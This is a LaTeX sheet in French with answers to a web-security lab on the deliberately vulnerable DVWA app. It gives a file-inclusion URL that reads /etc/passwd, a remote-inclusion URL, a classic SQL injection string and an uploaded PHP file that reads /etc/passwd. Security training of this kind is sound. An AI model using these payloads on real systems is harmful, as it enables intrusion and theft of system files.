 \documentclass[a4paper]{article}
\begin{document}
\begin{itemize}


\item File Inclusion - Tentez d’afficher le contenu de /etc/passwd:
\begin{example}
    Se rendre sur l'url: \texttt{http://10.0.2.16/DVWA/vulnerabilities/fi/?page=/etc/passwd}
\end{example}


\item File Inclusion - Téléchargez un fichier présent sur Internet à l’aide de la page vulnérable:
\begin{example}
    Se rendre sur l'url: \texttt{http://10.0.2.16/DVWA/vulnerabilities/fi/?page=http://google.com/}
\end{example}


\item SQL Injection - Quelle est la différence entre une injection SQL classique et de type blind ?
\begin{example}
    \begin{itemize}
        \item classique = on voit le résultat de la requête SQL
        \item blind = on fait des requêtes dont la réponse est \texttt{[oui/non]} et la réponse est déterminée àpd temps de réponse
    \end{itemize}
\end{example}


\item SQL Injection - Affichez la liste des utilisateurs présents dans la base de données:
\begin{example}
    Injecter: \texttt{' OR 1=1 OR '}
\end{example}


\item File Upload - Ajoutez un fichier PHP qui permet d’exécuter une commande système:
\begin{example} \begin{itemize}
    \item \texttt{sudo chmod 777 /var/www/html/DVWA/hackable/uploads}
    \item uploader le fichier \texttt{passwd.php}:
\begin{lstlisting}[style=php]
<?php
    include("/etc/passwd");
?>
\end{lstlisting}
    \item se rendre sur \texttt{http://10.0.2.16/DVWA/hackable/uploads/passwd.php}
\end{itemize} \end{example}



\end{itemize}
\end{document}

